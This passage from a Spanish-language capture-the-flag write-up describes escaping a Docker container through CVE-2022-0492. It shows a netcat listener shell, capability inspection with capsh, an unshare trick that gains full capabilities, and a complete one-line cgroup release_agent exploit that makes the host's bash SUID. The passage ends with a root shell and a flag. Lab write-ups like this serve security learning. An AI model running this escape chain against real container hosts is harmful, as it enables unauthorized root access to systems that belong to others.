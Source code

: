 ```null
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
```

Para escapar del contenedor, busco en Hacktricks diferentes técnicas. Pero solo una es funcional. Se trata del [CVE-2022-0492](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/docker-release_agent-cgroups-escape). La idea es crear un archivo que sea accesible desde la máquina host, modificando los archivos de configuración (Por lo que es necesario estar como root) abusando. Hay que montar el cgroup existente en un directorio temporal. Al reiniciar los procesos del cgroup es posible inyectar comandos como la máquina host, así como escalar privilegios.

Un problema a destacar que ocurre en mi caso, es que de primeras no tengo acceso a la hora de crear las monturas (Está gestionado por docker, no lo puedo modificar)

```null
root@90c7f522b842:/# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
mount: /tmp/cgrp: permission denied.
```

Esto se debe a que no tengo asignada la capability ```cap_sysadmin```

```null
root@90c7f522b842:/# set $(cat /proc/$$/status | grep "CapEff"); capsh --decode=$2
0x00000000a00425fb=cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_chroot,cap_audit_write,cap_setfcap
```

Pero si creo un nuevo ```cgroup``` las capabilities pasan a ser máximas

```null
root@90c7f522b842:/# unshare -UrmC bash
root@90c7f522b842:/# set $(cat /proc/$$/status | grep "CapEff"); capsh --decode=$2
0x0000003fffffffff=cap_chown,cap_dac_override,cap_dac_read_search,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_linux_immutable,cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw,cap_ipc_lock,cap_ipc_owner,cap_sys_module,cap_sys_rawio,cap_sys_chroot,cap_sys_ptrace,cap_sys_pacct,cap_sys_admin,cap_sys_boot,cap_sys_nice,cap_sys_resource,cap_sys_time,cap_sys_tty_config,cap_mknod,cap_lease,cap_audit_write,cap_audit_control,cap_setfcap,cap_mac_override,cap_mac_admin,cap_syslog,cap_wake_alarm,cap_block_suspend,cap_audit_read
```

Siguiendo toda la guía, le asigno el privilegio SUID a la bash y desde la sesión que tenía de SSH con ```hflaccus```, migro al usuario root y puedo visualizar la segunda flag

```null
root@90c7f522b842:/# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x; echo 1 > /tmp/cgrp/x/notify_on_release; host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`; echo "$host_path/cmd" > /tmp/cgrp/release_agent; echo '#!/bin/sh' > /cmd; echo 'chmod u+s /bin/bash' >> /cmd ;echo "ps aux > $host_path/output" >> /cmd; chmod a+x /cmd; sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

```null
hflaccus@carpediem:/etc/ssl/certs$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
hflaccus@carpediem:/etc/ssl/certs$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
e30ba364d8c2baf9db5d39b4e4e354bc
```


